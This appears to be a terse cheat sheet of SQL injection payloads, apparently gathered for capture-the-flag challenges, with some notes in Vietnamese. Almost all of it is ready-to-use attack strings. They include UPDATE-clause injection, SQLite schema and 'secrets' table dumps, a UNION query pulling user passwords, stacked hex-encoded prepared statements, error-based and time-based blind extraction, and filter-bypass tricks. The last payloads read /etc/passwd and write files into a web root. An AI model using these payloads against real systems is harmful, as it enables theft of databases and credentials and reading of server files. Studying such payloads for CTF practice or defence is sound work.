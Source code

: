 ```UPDATE <table_name> SET nickName='name', email='email' WHERE <condition>```
UPDATE usertable SET nickName='capybara',email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'
UPDATE usertable SET nickName='',nickName='database()', email='test@test.com',password='ce5ca673d13b36118d54a7cf13aeb0ca012383bf771e713421b4d1fd841f539a' WHERE UID='1'
```
# MySQL and MSSQL
',nickName=@@version,email='
# For Oracle
',nickName=(SELECT banner FROM v$version),email='
# For SQLite
',nickName=sqlite_version(),email='
```
SQLite

```',nickName=(SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='```

```',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='```

```',nickName=(SELECT group_concat(id || "," || author || "," || secret || ":") from secrets),email='```

```' UNION SELECT 1,group_concat(password) FROM users-- -```



Use preparestatement to execute query 

"select flag from \`1919810931114514\`" => 73656c65637420666c61672066726f6d20603139313938313039333131313435313460

```1'; prepare abc from 73656c65637420666c61672066726f6d20603139313938313039333131313435313460; execute abc```


Sử dụng extractvalue: -1' and extractvalue(1,concat(0x7e,(select group_concat(schema_name) from information_schema.schemata)))-- -

Time base: '1)) union select 1,2,elt((select substr('abc',1,1) from information_schema.schemata limit 0,1)='a',sleep(5))-- -

Sử dụng updateXML: 1',updatexml(1,concat(0x7e,(select database()),0x7e),1))-- -

select name from demo where name = 'dasd' union values(char(97)||char(100)||char(109)||char(105)||char(110))

1/**/union/**/values(char(97)||char(100)||char(109)||char(105)||char(110))

# Load file 
?id=1')) UNION SELECT(select database()),2,3 into outfile "/var/www/html/<web-root>/1.txt";-- -

?id=1')) union select load_file("/etc/passwd"),2,3 into outfile "/var/www/html/<web-root>/2.txt";-- -



